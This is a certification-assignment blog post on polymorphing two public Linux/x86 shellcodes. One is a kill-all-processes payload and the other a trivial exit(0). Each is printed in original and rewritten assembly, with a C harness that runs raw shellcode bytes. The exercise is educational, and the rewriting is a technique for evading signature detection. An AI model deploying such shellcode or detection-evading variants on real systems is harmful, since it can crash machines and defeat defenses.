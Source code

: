 _This blog post has been created for completing the requirements of the
SecurityTube Linux Assembly Expert certification:_  
_ __<http://securitytube-training.com/online-courses/securitytube-linux-
assembly-expert/>_  
_ __**Student ID:** SLAE-885_  
_**Assignment number: **6.2 and 6.3_  
_**Github repo:** <https://github.com/abatchy17/SLAE>  _  
_  
_ In assignment 6, the requirement is polymorphing 3+ shellcodes off
shellstorm.org or exploit-db.com_, _which basically means modifying the code
so it doesn't look like the original yet has the same functionality. This post
contains the remaining 2 parts for assignment 3.  
  

## Linux/x86 - kill all processes

The following shellcode is written by Kris Katterjohn and can be found
[here](http://shell-storm.org/shellcode/files/shellcode-212.php).  

    
    
    section .text  
      
    global _start  
      
    _start:  
      
        ; kill(-1, SIGKILL)  
      
        push byte 37  
        pop eax  
        push byte -1  
        pop ebx  
        push byte 9  
        pop ecx  
        int 0x80  
    

  
Very simple code, it sets EAX to 37 (syscall for **kill()**), sets EBX to -1
(to target all processes) and ECX to 9 (SIGKILL).  
  
Let's modify this code slightly:  
  

    
    
    section .text  
      
    global _start  
      
    _start:  
      
        ; kill(-1, SIGKILL)  
      
        xor ebx, ebx  
        dec ebx  
        push byte 37  
        pop eax  
        push byte 9  
        pop ecx  
        int 0x80  
    

  
See what I did there? Shellcode is of same size so we're good.  
  

## Linux/x86 - exit(0)

The following shellcode is written by gunslinger_ and can be found [here](http
://shell-storm.org/shellcode/files/shellcode-623.php).  
  

    
    
    /*  
    Name   : 8 bytes sys_exit(0) x86 linux shellcode  
    Date   : may, 31 2010  
    Author : gunslinger_  
    Web    : devilzc0de.com  
    blog   : gunslinger.devilzc0de.com  
    tested on : linux debian  
    */  
      
    char *bye=  
     "\x31\xc0"                    /* xor    %eax,%eax */  
     "\xb0\x01"                    /* mov    $0x1,%al */  
     "\x31\xdb"                    /* xor    %ebx,%ebx */  
     "\xcd\x80";                   /* int    $0x80 */  
      
    int main(void)  
    {  
      ((void (*)(void)) bye)();  
      return 0;  
    }  
    

  
What can we do about this code? Well, **mov al, 0x1** can be replaced with
**inc eax.**  
  

    
    
    global _start  
    _start:  
      
    xor eax, eax  
    inc eax  
    xor ebx, ebx  
    int 0x80  
    

  
Shellcode is now one byte smaller, sweet.  
  
\- Abatchy

